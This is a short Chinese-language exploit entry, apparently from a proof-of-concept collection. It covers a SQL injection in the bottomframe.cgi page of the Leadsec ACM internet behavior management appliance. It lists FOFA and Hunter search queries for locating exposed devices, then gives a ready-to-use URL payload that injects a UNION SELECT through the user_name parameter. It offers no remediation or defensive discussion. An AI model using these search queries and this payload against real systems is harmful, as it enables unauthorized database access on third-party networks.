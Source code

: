 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 网络测绘

fofa: title="Leadsec ACM" && "scripts/webcommon.js"

hunter: app.name="LeadSec 网御星云 ACM"

## POC / EXP

```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```